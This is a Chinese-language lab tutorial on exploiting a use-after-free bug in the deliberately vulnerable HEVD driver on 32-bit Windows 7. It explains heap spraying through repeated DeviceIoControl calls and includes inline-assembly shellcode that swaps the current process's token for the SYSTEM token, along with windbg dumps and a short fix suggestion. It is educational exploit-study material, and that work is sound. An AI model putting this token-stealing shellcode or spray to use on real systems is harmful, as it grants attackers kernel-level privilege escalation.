

Windows Kernel Vulnerability Exploit Analysis Series part 1 UAF

By 妖孽

实验环境：

 	HEVD漏洞驱动
	win7 x86 sp1系统
	windbg内核调试工具

UAF顾名思义Use after free,一块内存释放后再使用.内存中存在某一指针p：
1，释放内存p后，设置p为NULL,再次使用p指针时，程序崩溃
2，释放内存p后，没有设置p为NULL,没有任何人修改p指针对应内存的内容，再次使用p指针时，程序可能会征程运行
3，释放内存p后，没有设置p为NULL，再次使用p指针时，p指针对应的地址被别人修改，此时可能会出现崩溃等问题。

UAF漏洞一般指的时候后2种情况。

g_UseAfterFreeObjectNonPagedPool全局指针的类型是USE_AFTER_FREE_NON_PAGED_POOL，释放掉USE_AFTER_FREE_NON_PAGED_POOL后并没有设置为NULL.

    typedef struct _USE_AFTER_FREE_NON_PAGED_POOL
		{
			FunctionPointer Callback;
			CHAR Buffer[0x54];
		} USE_AFTER_FREE_NON_PAGED_POOL, *PUSE_AFTER_FREE_NON_PAGED_POOL;

    
而 g_UseAfterFreeObjectNonPagedPool的使用如下，由于释放了该内存块，但是该指针并未设置为NULL，所以
还是会进入到内部执行。释放的指针，下次被别人申请到了，别人修改了这块内存的内容，尤其是Callback成员，而g_UseAfterFreeObjectNonPagedPool还是指向这块内存，但是这块内存的内容已经发生了变化，而且还在使用这个地方。这就是UAF的根本原理。

    if (g_UseAfterFreeObjectNonPagedPool)
        {
            DbgPrint("[+] Using UaF Object\n");
            DbgPrint("[+] g_UseAfterFreeObjectNonPagedPool: 0x%p\n", g_UseAfterFreeObjectNonPagedPool);
            DbgPrint("[+] g_UseAfterFreeObjectNonPagedPool->Callback: 0x%p\n", g_UseAfterFreeObjectNonPagedPool->Callback);
            DbgPrint("[+] Calling Callback\n");

            if (g_UseAfterFreeObjectNonPagedPool->Callback)
            {
                g_UseAfterFreeObjectNonPagedPool->Callback();
            }

            Status = STATUS_SUCCESS;
        }
那么如何保证别人能申请到g_UseAfterFreeObjectNonPagedPool释放的内存地址呢？答案是堆喷射
我们构造非常多的USE_AFTER_FREE_NON_PAGED_POOL结构体在内核，即堆海战术，总有一个能申请到g_UseAfterFreeObjectNonPagedPool释放的那个地址。
以上即是UAF以及堆喷射技术

**1，本地提权原理**
每个进程在内核中都有一个EPROCESS结构体对象，描述进程的所有信息，其中有一个字段token，描述的是当前进程的权限级别。

    `kd> dt _eprocess
	nt!_EPROCESS
	   +0x000 Pcb              : _KPROCESS
	   +0x098 ProcessLock      : _EX_PUSH_LOCK
	   +0x0a0 CreateTime       : _LARGE_INTEGER
	   +0x0a8 ExitTime         : _LARGE_INTEGER
	   +0x0b0 RundownProtect   : _EX_RUNDOWN_REF
	   +0x0b4 UniqueProcessId  : Ptr32 Void
	   +0x0b8 ActiveProcessLinks : _LIST_ENTRY
	   +0x0c0 ProcessQuotaUsage : [2] Uint4B
	   +0x0c8 ProcessQuotaPeak : [2] Uint4B
	   +0x0d0 CommitCharge     : Uint4B
	   +0x0d4 QuotaBlock       : Ptr32 _EPROCESS_QUOTA_BLOCK
	   +0x0d8 CpuQuotaBlock    : Ptr32 _PS_CPU_QUOTA_BLOCK
	   +0x0dc PeakVirtualSize  : Uint4B
	   +0x0e0 VirtualSize      : Uint4B
	   +0x0e4 SessionProcessLinks : _LIST_ENTRY
	   +0x0ec DebugPort        : Ptr32 Void
	   +0x0f0 ExceptionPortData : Ptr32 Void
	   +0x0f0 ExceptionPortValue : Uint4B
	   +0x0f0 ExceptionPortState : Pos 0, 3 Bits
	   +0x0f4 ObjectTable      : Ptr32 _HANDLE_TABLE
	   +0x0f8 Token            : _EX_FAST_REF   
	   +0x0fc WorkingSetPage   : Uint4B`
sytem进程的token:

    `kd> dt  _EX_FAST_REF 857d09e8+f8
		nt!_EX_FAST_REF
			   +0x000 Object           : 0x894012d7 Void
			   +0x000 RefCnt           : 0y111
			   +0x000 Value            : 0x894012d7`
cmd进程的token:

    kd> dt  _EX_FAST_REF 85a59d40+f8
	nt!_EX_FAST_REF
	   +0x000 Object           : 0xa0b83ac2 Void
	   +0x000 RefCnt           : 0y010
	   +0x000 Value            : 0xa0b83ac2
通过把cmd进程的token替换成sytem进程的token即可达到提权。

 

**2,ShellCode**

目的是获取system进程的token，替换当前进程的token,达到提权的目的。
	nop
	pushad
	mov eax,fs:[124h];得到当前线程
	mov eax,[eax+0x150];得到当前线程对应的进程,eprocess
	mov ecx,eax	//保存当前线程到ecx
	mov edx,4	//系统进程的pid=4
	//
	find_sys_pid:
	mov eax,[eax+0xb8] //+0x0b8 ActiveProcessLinks : _LIST_ENTRY
	sub eax,0xb8	//得到eprocess的起始地址
	cmp [eax+0xb4],edx
	jnz find_sys_pid
	//找到了替换当前进程的token
	mov edx,[eax+0xb8]		//系统进程的token
	mov [ecx+0xb8],edx
	popad
	ret
====》

    void ShellCode()
	{
		__asm
		{
			nop;
			pushad;
			mov eax,fs:[0x124];
			mov eax,[eax+0x150];//current process
			mov ecx,eax;
			mov edx,4;
			
	find_sys_pid:
			mov eax,[eax+0xb8];//active process
			sub eax,0xb8;//eprocess
			cmp [eax+0xb4],edx;
			jnz find_sys_pid;
			//find it
			mov eax,[eax+0xf8];//systemprocess token
			mov [ecx+0xf8],eax;
			popad;
			//ret; 因为不是裸函数，所以ret不能写在这里
		}
	}

**3，漏洞利用**

g_UseAfterFreeObjectNonPagedPool指针全局变量已经被释放，但是没有设置为NULL,

Windows下的内存申请也是有规律的，我们知道ExAllocatePoolWithTag函数中申请的内存并不是胡乱申请的，操作系统会选择当前大小最合适的空闲堆来存放它。这块内存已经返回给操作系统后，我们申请很多个同样大小内存，并构造好数据。因为我们并不能保证一次申请的内存，刚好和g_UseAfterFreeObjectNonPagedPool原始指向的地址一样，所以我们需要申请很多个，也就是堆海战术，我申请了这么多，总一个命中吧。

进行堆喷射：

	for (int i = 0; i < 5000; i++)
	{
	    // 调用 AllocateFakeObject() 对象
	    DeviceIoControl(hDevice, 0x22201F, fakeG_UseAfterFree, 0x60, NULL, 0, &recvBuf, NULL);
	}

**4，补丁思考**
我们的漏洞利用是g_UseAfterFreeObjectNonPagedPool释放之后，再次对他进行引用。增加一个判断条件，判断是否为空。

修复方案：
当指针释放后，其变量应该设置为NULL

**总结：**

	    1，如果一个进程具备system权限，创建的子进程也有此权限
    	2，当一个程序执行deviceIocontrol时，进入到内核时，能够执行3环的函数。

		3，如何引发堆喷射，申请和使用时一样的内存大小的内存，申请很多次，总有一次能申请到已经被释放的那一个地址上。
		4，构造exp的时候，一定要对调用函数进行精准分析，数据从3环到0环的结构体进行分析。
		5，多分析同类型的CVE漏洞，毕竟HEVD构造条件相对简单
		6，可以尝试对HEVD进行模糊测试，从头到尾从二进制角度进行分析漏洞，毕竟实战情况并没有源码可以参考。
	 